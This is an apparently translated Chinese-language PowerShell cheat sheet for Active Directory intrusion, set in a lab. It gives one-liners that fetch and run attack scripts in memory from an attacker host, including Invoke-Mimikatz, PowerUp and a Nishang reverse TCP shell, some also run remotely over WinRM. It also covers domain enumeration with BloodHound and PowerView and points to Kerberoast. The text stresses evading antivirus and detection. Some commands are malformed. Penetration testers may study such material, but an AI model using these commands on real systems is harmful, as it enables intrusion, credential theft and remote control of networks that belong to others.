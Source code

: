 # Powershell
这篇文章主要收录了通过域枚举域，反弹shell，内网穿透和运行exp来获取进一步的访问权限的技术。Powershell在现代Windows系统中的流行对我们有很大的帮助。我们可以综合利用这些tricks，在留下很少的记录的同时，完成高效和隐蔽的攻击。Powershell可以不在硬盘上创建文件的同时直接操作内存。BOX01是本文的实验环境，10.10.10.10是本机ip。如果需要从kali上下载文件，可以简单的使用 
`python -m SimpleHTTPServer 80` 来实现。

在这里，在服务器端使用身份认证和https进行网络安全控制是很明智的。

此处大部分技巧可以由一个人独自完成。

---

## 下载和上传文件
下载文件到目标主机有时候是可行的，但是不要忘记，当你想不被发现或者绕过杀毒软件的时候，Powershell是可以远程或者在内存中做到这些。

下面这句命令将下载此文件到当前目录，运行这些命令不需要一个交互的Powershell，他们可以直接在cmd中执行。
```Powershell
Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"
```
这句命令可以下载文件到指定目录，并且可以在`DownloadFile`函数中的第二个参数中指定文件名。
```Powershell
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"
```

## BloodHound
BloodHound是一个能映射出整个域的结构图的工具。
```Powershell
Powershell -exec bypass
Import-module sharphound.ps1Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing
```
## 远程
一旦获得一个域用户的权限，在远端可以做很多事情。在AD(Active Directory)中，只需要获得一个shell就可以。一旦获得获得一个域用户的权限，你可以通过在该节点上的域或本地权限，在很多节点上执行大量的命令。windows提供三种方法进行访问认证：凭证，哈希和令牌。下面我们来介绍这些访问类型的区别。

如果可以访问一台主机的文件共享，假设你已经获得你想要的用户的shell，不曾输入密码，你就可以在目录下使用`dir`命令。这意味着即使你获得一个没有hash和凭证的shell，你仍然可以使用令牌向远程服务来辨识你的身份。使用如下命令来简单验证下：
```Powershell
dir \\BOX01\c$\
```
如果你没有shell，但是有域用户的凭证，你可以使用`runas`命令，这将要求你输入密码，但是你可以在自己的机器上运行而不需要一个远程shell。

`/netonly` 表示指定的用户信息只能用于远程访问。
```Powershell
runas /netonly /FQDN\user cmd.exe
```
运行如下命令，可以从远程计算机上运行并获得Powershell。

```Powershell
runas /netonly /user:customer\ank powershell
```
使用`WMIC`，检查哪些用户在远程计算机上有会话。远程运行这个命令时不需要本地管理员权限。

```Powershell
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell原生支持WinRM，WinRM允许远程执行命令。以下命令展示如何在当前用户仅能访问令牌(tokens)的情况下在远程计算机上执行命令（不要求输入密码）。这个`{hostname}`命令只是用于验证shell有没有用，也可以换成其他命令。

```Powershell
Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}
```

更进一步，你可以在Powershell中设置凭证。使用Empire中类似`ps_remoting`的功能可以实现这些。
```Powershell
$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {hostname};
```

## Powerview
Powerview 是一个用于域枚举的工具集，这是更大的工具集Powerspolit的一部分，其开发规模巨大，所以随时都在变。Powerview完整的命令列表可以在一下目录找到：

<https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon>

Powerviewk可能被反病毒软件拦截，可以看看这篇有意思的文章了解如何“绕过”它。该方法在2018年一个真实环境中起到了作用。<https://implicitdeny.org/2016/03/powerview-caught-by-sep/>

在Powerview中有一个特别实用的功能叫做`Find-LocalAdminAccess`,它可以枚举出目前的用户在哪些机器上是管理员权限。这是非常实用的，因为你可以在那些计算机上运行一些类似mimikatz的工具，直接进入内存，从而获得域用户凭证。如果你需要看看在当前环境中的每一台计算机，哪些组和用户是本地管理员，你可以使用`Invoke-EnumerateLocalAdmin`。

如果你开心的话，可以把所有模块都运行一遍。

打开PowerUp.ps1，在文件的末尾添加`Invoke-AllChecks`，这将在使powershell脚本字符串在下载完成之后再接在内存中执行此脚本。这中方法对Powershell中的每个函数都是有效的。

```Powershell
Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
```
## Mimikatz
和Powerview类似，在ps1文件的最后一行说明你要执行的命令，客户端中将实时显示结果。

```Powershell
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

## Shells
恕我直言，Ninshang shells就跟坨屎。<https://github.com/samratashok/nishang/tree/master/Shells>

```Powershell
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

我们可以使用WinRM实现相同的功能。
```Powershell
Invoke-Command -ComputerName BOX01 -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

也应该考虑使用https反弹shell以防止被检测到。

## Invoke-Kerberoast

Kerberoast 是一种技术。

<https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/>

<https://room362.com/post/2016/kerberoast-pt1/>
